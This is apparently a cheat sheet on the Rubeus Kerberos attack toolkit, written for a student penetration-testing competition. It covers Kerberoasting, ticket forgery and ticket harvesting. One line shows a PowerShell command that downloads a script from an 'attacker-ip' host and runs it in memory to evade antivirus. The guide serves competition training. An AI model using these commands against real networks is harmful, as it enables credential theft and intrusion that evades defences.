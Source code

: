 # Rubeus - CPTC Quick Reference

## What is Rubeus & Why It's Critical

**Rubeus = Kerberos attack toolkit for Windows (C# .NET)**

**Why you need it for CPTC:**
- ✅ Kerberoasting from Windows (faster than Impacket)
- ✅ AS-REP roasting from compromised Windows box
- ✅ Pass-the-Ticket attacks
- ✅ Golden/Silver ticket creation
- ✅ Ticket harvesting from memory
- ✅ Better than Mimikatz for Kerberos-only attacks

**When to use:** You have access to Windows machine (even without admin)

**Time to value:** 30 seconds to 2 minutes per attack

---

## Installation & Execution

### Download

```powershell
# Download from GitHub releases
# https://github.com/GhostPack/Rubeus/releases

# Or compile from source (requires Visual Studio)
git clone https://github.com/GhostPack/Rubeus
# Open Rubeus.sln in Visual Studio → Build
```

---

### Execution Methods

**Method 1: Direct Execution (If AV/EDR Allows)**
```powershell
.\Rubeus.exe kerberoast
```

**Method 2: In-Memory (Bypass AV)**
```powershell
# From remote host
IEX (New-Object Net.WebClient).DownloadString('http://attacker-ip/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "kerberoast"
```

**Method 3: Cobalt Strike / C2**
```
execute-assembly C:\Tools\Rubeus.exe kerberoast
```
